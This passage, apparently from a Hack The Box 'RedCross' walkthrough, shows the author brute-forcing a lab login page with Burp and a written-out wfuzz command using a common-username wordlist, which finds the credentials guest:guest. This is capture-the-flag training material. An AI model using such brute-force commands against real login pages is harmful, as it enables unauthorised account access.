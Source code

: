 <br> It asks for login , we will get into this later but let's go back to `intra.redcross.htb` and see what can we do from there.
![](/images/hackthebox/redcross/4.png)
<br> We need to login , I tried to bruteforce the login with wfuzz , so I intercepted the request with `burp` to see the parameters :
![](/images/hackthebox/redcross/9.png)
<br> Then I used wfuzz like we did before (I filtered responses with 32 chars). I used a small list for common credentials like `admin:admin`, [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) from seclists.
`wfuzz -c --hh 11 -u "https://intra.redcross.htb/pages/actions.php" -X POST -d "user=FUZZ&pass=FUZZ&action=login" -w top-usernames-shortlist.txt`
![](/images/hackthebox/redcross/10.png)
<br> `guest:guest` gave us a different response. Let's try it :